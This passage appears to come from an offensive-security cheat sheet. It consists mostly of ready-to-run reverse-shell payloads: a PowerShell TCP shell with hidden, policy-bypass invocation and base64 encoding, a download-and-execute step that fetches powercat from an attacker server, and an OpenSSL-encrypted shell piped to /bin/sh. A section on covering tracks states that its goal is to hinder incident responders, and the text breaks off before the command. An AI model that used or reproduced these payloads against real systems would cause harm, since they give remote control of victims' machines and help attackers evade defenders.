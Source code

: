 **Powershell Reverse Shell**

Invoke from `cmd` with `powershell -NoP -NonI -W Hidden -Exec Bypass -Command ...`

```powershell
$client = New-Object System.Net.Sockets.TCPClient("LISTEN_IP",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

If you convert to base64 on Linux for execution with
`powershell -enc "BASE64ENCODEDCMD"`, use the following command to ensure you
don't mess up the UTF-16LE encoding that windows uses:

```sh
echo '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.191",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv -t UTF-16LE | base64 | tr -d '\n'; echo
```

Also, you can use `powercat.ps1`, a netcat equivalent in Powershell, with "-e" support.

```sh
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
sudo python -m http.server 80
nc -lvnp 6969
```

Invoke with:

```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://LISTEN_IP/powercat.ps1");powercat -c LISTEN_IP -p 6969 -e powershell
```

**OpenSSL Encrypted Reverse Shell**

```sh
# generate key on server
openssl req -nodes -x509 -newkey rsa:2048 -days 365 -out cert.pem -keyout key.pem -batch
# Start server listener
sudo openssl s_server -accept 443 -key key.pem -cert cert.pem

# Client-side reverse shell
rm -f /tmp/f; mkfifo /tmp/f && openssl s_client -connect SERVER_IP:443 -quiet < /tmp/f 2>/dev/null | /bin/sh 2>&0 > /tmp/f &
```

### 5.4.1. Covering your tracks

When you connect via a reverse/bind shell, your commands get saved in the
terminal history. To avoid logging this (to make incident response team's job
harder), use the following as your first command:


[cve2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744